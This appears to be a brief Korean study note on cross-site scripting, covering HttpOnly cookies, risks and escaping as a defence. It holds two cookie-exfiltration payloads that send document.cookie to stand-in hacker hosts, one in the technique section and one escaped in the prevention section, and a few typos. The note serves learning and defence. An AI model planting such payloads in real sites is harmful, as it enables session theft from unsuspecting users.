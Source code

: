 # Cross Site Scripting (CSS)

## intro

외부 사용자가 사이트에 스크립트를 삽입하여 공격하는 방법.

## 기법

```planetext
    location.href = 'http://해커사이트/?cookies=' + document.cookie;
```

해커가 위와 같은 코드가 담긴 게시물을 공개 게시판에 작성할 경우, 게시글을 읽은 사용자의 쿠키가 전송되어 탈취가 가능해집니다.  
이렇게 document객체를 통해 쿠키에 접근하는 것을 막으려면 `http only`속성을 쿠키에 추가해야합니다.

```planetext
Set-Cookie: 쿠키명=쿠키값; path=/; HttpOnly

```

## 위험요소

1. 쿠키 정보 및 세션 ID 획득
2. 관리자 권한 획득
3. 악성코드 다운로드 유도
4. 거짓 페이지 놏ㄹ

## 방지법

1. 입력값 검증
2. htmlentitiess 사용

```
&lt;script&gt;document.write('img src=&quot;http://attacker.php?data='+escape(document.cookie)+'&quot; /&gt;')&lt;/script&gt;
```

```html
<?=htmlspecialchars(mysql_result($result,0,1))?>
```

3. 입력 필터

-

## REF

- [](https://nsinc.tistory.com/121)

https://kevinthegrey.tistory.com/36

